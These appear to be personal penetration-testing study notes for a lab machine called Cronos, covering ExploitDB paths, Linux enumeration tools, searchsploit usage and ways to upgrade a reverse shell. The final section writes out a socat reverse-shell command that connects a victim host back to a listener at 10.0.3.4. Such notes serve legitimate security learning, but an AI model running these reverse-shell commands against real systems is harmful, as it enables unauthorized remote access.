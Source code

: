 <br/>

* `/usr/share/exploitdb/exploits`
* ExploitDB's exploits are saved in this path.  

<br/>

* Tools we can use to make life easier  
* <a href="https://github.com/rebootuser/LinEnum">LinEnum</a>, <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPeas</a>, <a href="https://github.com/diego-treitos/linux-smart-enumeration">Linux-Smart-Enumeration</a> and <a href="https://github.com/DominicBreuker/pspy">Pspy</a>.  

<br/>

* Some info on gcc  
* The option `-Wall` is a warning option.  


 <br/><br/> 

### <span class="useful_shit subtitle">Searchsploit  

* `searchsploit -x [EXPLOIT PATH]`
* Can be used to view the exploit code.

<br/>

* `searchsploit -m [EXPLOIT PATH]`
* Copies the exploit to my working directory 😱.

<br/>

* People that name exploits sometimes name the versions wrongly. So, don't trusts the version in the name of the exploit.   

 <br/><br/> 

### <span class="useful_shit subtitle">Upgrading The Reverse Shell   

* The bitch machine Cronos keeps making problems for me and I can't seem to open the admin some times. So I wasn't able to test the ways I'll be mentioning next (I got them from this <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/">website</a>)  

<br/>  

* Using Python for a psuedo terminal  
  ```console
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```  

* Using socat  WORKED INSTEAD OF `nc`
  ```console
  #Listener
  socat file:`tty`,raw,echo=0 tcp-listen:4444

  #Victim  
  socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
  ```  
